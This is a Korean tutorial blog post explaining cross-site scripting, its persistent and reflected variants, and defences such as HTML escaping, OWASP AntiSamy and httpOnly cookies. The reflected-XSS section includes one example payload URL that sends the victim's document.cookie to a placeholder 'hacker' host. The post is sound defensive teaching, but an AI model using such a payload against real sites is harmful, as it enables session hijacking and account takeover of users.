

# XSS (Cross-Site Scripting)

XSS란 웹 앱에서 일어나는 취약점이다. 관리자가 아닌 권한이 없는 사용자가 웹 사이트에 스크립트를 삽입하는 공격 기법이다. 대부분 사용자가 글을 쓰고 읽을 수 있는 페이지에 많이 발생하지만, 사용자의 입력 값을 웹 페이지에 보여주는 곳에서도 발생한다.

주된 XSS 공격 중 하나는 사용자의 세션을 탈취하는 프로세스이다. 해커가 XSS 공격에 취약한 웹 사이트에 악의적인 스크립트를 삽입하고, 그 스크립트가 있는 게시글을 열람한 사용자는 악성 스크립트로 인해 본인의 쿠키가 해커에게 전송된다. 세션 ID가 포함된 쿠키를 탈취한 해커는 그 사용자의 계정으로 로그인하는 방식이다.

웹 애플리케이션 보안 연구재단(<a href="https://owasp.org/" target="_blank" rel="noopener">OWASP</a>)에 따르면

> 크로스 사이트 스크립팅(XSS)는 애플리케이션에서 브라우저로 전송하는 페이지에서 사용자가 입력하는 데이터를 검증하지 않거나, 출력시 위험 데이터를 무효화 시키지 않을 때 발생한다.

라고 정의하고 있다.

### 지속형 XSS 공격 (Persistent XSS)

<figure>

<figcaption>Fig 1. 지속형 XSS 공격</figcaption>
</figure>

지속형 XSS 공격은 XSS 공격 중 하나로, 지속적으로 피해를 입히는 XSS 공격이다. 해커는 웹 앱에서 XSS 취약점이 있는 곳을 파악한다. 예를 들면, HTML 요소를 조작하기 위해 DOM 메소드 중 `innerHTML`을 사용하는 경우가 있다. `innerHTML` 속성으로 DOM을 조작하는 경우, 값으로 HTML 태그를 입력하기 때문에 해커는 이 취약점을 노려 XSS 공격을 감행할 수 있다.

해커가 삽입한 스크립트는 데이터베이스에 저장되고, 저장된 악성 스크립트가 있는 게시글을 열람한 사용자는 이 악성 스크립트가 작동시키게 된다. 작동된 악성 스크립트로부터 사용자의 쿠키를 탈취할 수 있고, 또는 다른 사이트로 리다이렉트되도록 만들 수 있다. 데이터베이스에 이 악성 스크립트가 저장되어 지속적으로 공격한다고 하여 지속형 XSS 공격이라고 부른다. 또는, 데이터베이스에 저장된다하여 저장형 XSS 공격이라고도 부른다.

이 공격의 특징은 한 번의 공격으로 악성 스크립트를 삽입하여 큰 피해를 줄 수 있다는 점이다. 이 유형의 공격이 가장 많이 발생되는 곳은 게시판이며, 굳이 게시판이 아니더라도 사용자가 입력한 값이 데이터베이스에 저장이 되고, 저장된 값이 그대로 View로 보여주는 곳에 공격이 성공할 수 있다.

### 반사형 XSS 공격 (Reflected XSS)

<figure>

<figcaption>Fig 2. 반사형 XSS 공격</figcaption>
</figure>

반사형 XSS 공격은 사용자에게 입력받은 값을 서버에서 되돌려 주는 곳에서 발생한다. 사용자가 정보 검색을 위해 검색어를 입력하고 그에 따른 결과물을 보여주는 경우가 있다. 사용자가 입력한 값을 에러 메세지에 포함하여 보여주는 곳에 악성 스크립트가 삽입되면 서버가 사용자의 입력을 포함해 응답해줄 때 스크립트가 실행된다. 보통 반사형 XSS 공격은 공격자가 악의적인 스크립트와 함께 URL을 사용자에게 누르도록 유도한다. URL을 누른 사용자는 악의적인 스크립트가 실행되며 공격을 당하게 된다.

예를 들면, `GET` 요청으로 검색을 구현한 웹 앱에서 XSS 취약점을 확인한 해커는 아래와 같이 악성 스크립트를 삽입하여 요청을 날린다.

```
http://service.com?search=<script>location.href('http://hacker/cookie.php?value='+document.cookie);</script>
```

예시를 든 스크립트가 검색 인자가 되어 요청을 보낸다. 스크립트의 내용은 해커의 웹 페이지로 URL을 클릭한 사용자의 쿠키 값이 전송되도록 되어 있다. 링크를 클릭한 사용자는 자신의 의도와 상관 없이 자신의 쿠키 값을 전송하게 된다.

이는 스크립트가 서버에 저장되지 않고 즉시 스크립트를 실행한다. 이는 브라우저 자체적으로 차단하는 경우가 많아 저장형 XSS 공격에 비해 공격 성공률이 낮다.

# 대응 방안

1. 필터 사용

유저가 `input` 태그에 텍스트를 입력해야하는 경우, 이 때 필터를 적용할 수 있다. 개인이 만든 필터보다는 전문적인 보안 업체나 기업에서 만든 것이 공신력있고 편하게 사용할 수 있다. 주로 <a href="https://wiki.owasp.org/index.php/Category:OWASP_AntiSamy_Project" target="_blank" rel="noopener">OWASP Antisamy</a>가 있다.

예를 들면, 텍스트가 입력되어 서버로 요청하기 전에 검증을 하여 대응할 수 있다. `input` 태그에 만약 `<` 또는 `>` 같은 태그 문자(`<script>` 방지)를 입력했을 때 이를 필터링한다. 이 때 출력되는 값을 `<` 와 같은 태그 문자 대신 HTML 문자로 변환하여 출력한다. 이렇게 하면 `<` 문자는 `&lt;` 로 변경된다. 즉, HTML 문서는 `&lt;script&gt;` 로 인식하여 `<script>` 태그 속의 코드는 실행되지 않는다.

2. 쿠키 보안 옵션 사용

쿠키를 생성할 때 보안 옵션을 사용하여 웹 브라우저 상에서만 쓸 수 있도록 해야 한다. Node 환경에서 Express를 사용한다면, `httpOnly` 옵션을 쿠키에 지정하여 웹 브라우저상에서만 쿠키를 사용할 수 있다.

위 방안들과 별개로 웹 애플리케이션 보안 연구재단(OWASP)에서 XSS 공격을 방지하는 7계명을 발표했다.

### XSS 공격 방지 7계명

0. 허용된 위치가 아닌 곳에 신뢰할 수 없는 데이터가 들어가는 것을 허용하지 않는다.
1. 신뢰할 수 없는 데이터는 검증을 해야 한다.
2. HTML 속성에 신뢰할 수 없는 데이터가 들어갈 수 없도록 해야 한다.
3. 자바스크립트에 신뢰할 수 없는 값이 들어갈 수 없도록 해야 한다.
4. CSS의 모든 신뢰할 수 없는 값에 대해 검증해야 한다.
5. URL 파라미터에 신뢰할 수 없는 값이 있는지 검증해야 한다.
6. HTML 코드를 전체적으로 한 번 더 검증해야 한다.

### Reference

- <a href="https://owasp.org/" target="_blank" rel="noopener">웹 애플리케이션 보안 연구재단(OWASP)</a>
- <a href="https://wiki.owasp.org/index.php/Category:OWASP_AntiSamy_Project" target="_blank" rel="noopener">OWASP Antisamy</a>
